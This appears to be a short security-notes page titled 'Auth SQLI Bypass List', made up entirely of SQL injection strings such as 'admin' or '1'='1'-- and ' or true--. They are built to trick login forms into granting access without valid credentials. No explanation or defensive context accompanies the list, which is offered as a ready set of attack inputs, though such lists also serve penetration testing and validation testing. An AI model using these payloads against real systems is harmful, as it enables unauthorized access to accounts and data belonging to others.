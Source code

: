```yaml
---
title: /_posts
layout: page
permalink: /_posts
---
```


# Auth SQLI Bypass List

<pre>
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or 1=1 limit 1 -- -+ 
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true-- 
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
")) or (("x"))=(("x
1=1 or 1=1--
or 1=1#
or 1=1/*
admin' --
admin''--
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
</pre>
